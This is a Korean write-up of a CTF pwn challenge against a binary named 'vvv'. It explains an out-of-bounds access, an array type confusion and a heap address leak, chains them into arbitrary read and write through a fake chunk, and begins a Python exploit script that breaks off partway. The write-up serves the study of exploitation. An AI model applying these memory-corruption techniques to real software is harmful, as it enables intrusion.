 ### Vulnerability

분석이 끝나자마자 State에서 Object를 가져올때 OOB가 있는것을 확인하였고 array를 확장할때 초기화를 하지 않아 UAF의 가능성을 열어두었다. 하지만 delete(free)가 없는 관계로 uaf는 아니라고 생각했다.<br>그리고나서 의심한 메뉴는 아래와 같다.

1. concat Array : Array를 합칠때 NativeArray와 Array를 합칠 수 있다. 그런데 여기서 약간 이상한게 NativeArray만 첫번째 인자로 받으면서 두번째 인자는 Array를 받는다는점이다. 그래서 NativeArray와 NativeIntArray를 합쳐보니 타입컨퓨전이 발생하여 17번 메뉴를 이용해 State의 원하는 값을 추가하는게 가능했다. (oob 이용)
2. calc BigNumber : 두번째는 이 메뉴이다. 첫번째 인자로 BigNumber를 받지만 두번째 인자로는 타입체크를 하지 않는다. 그래서 넣을 수 있는 타입을 고려해보니까 String밖에 없었고 String을 넣어보니 주소값과 연산을하여 heap leak이 가능했다.

이 두가지를 이용하면 Arbitrary read가 가능하다. 바로 찾은 취약점 두개가 Exploit과 직접적으로 연관이 있었다.



### Exploit

exploit을 할때 Arbitrary write를 하지 못해서 고민을 많이 했다. 하지만 어차피 State의 box를 덮을 수 있으므로 int_box에 0x10001000, 0x20002000을 넣어서 Fake Chunk를 구성해 만들면 되는데, 0x10001000을 사용하지 못하므로  Arbitrary write의 방법은 두가지가 존재한다.

1. 0x10001000에 패딩을 넣어서 0100 01000 0000 이런식으로 패딩까지 계산해서 Fake Chunk를 만든다.
2. 0x30003000을 이용해 BigNumber class를 이용해서 Arbitrary write를 한다.

나는 두번째 방법을 통해 Exploit을 하였고 다른 write up을 참고해보니 1번방법이 주로 사용된것 같았다.



```python
from ntpwn import *

s = ''
e = ELF('./vvv')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def conn():
	s = process('./vvv')
	b = BP(s)
	b.bp('tracemalloc on')
	b.bp64(0x154f) # read_data
	b.done()
	return s

def na(size): # Make Native Array
	s.send(p8(32))
	sleep(0.02)
	s.send(p32(0x10001000))
	sleep(0.02)
	s.send(p8(23))
	sleep(0.02)
	s.send(p64(size))
	sleep(0.05)

def nia(size): # Make Native Int Array
	s.send(p8(32))
	sleep(0.02)
	s.send(p32(0x10001000))
	s.send(p8(32))
	sleep(0.02)
	s.send(p64(size))
	sleep(0.05)

def st(data,n=True): # Make Stirng
	s.send(p8(32))
	sleep(0.02)
	s.send(p32(0x20002000))
	if n:
		s.sendline(data)
	else :
```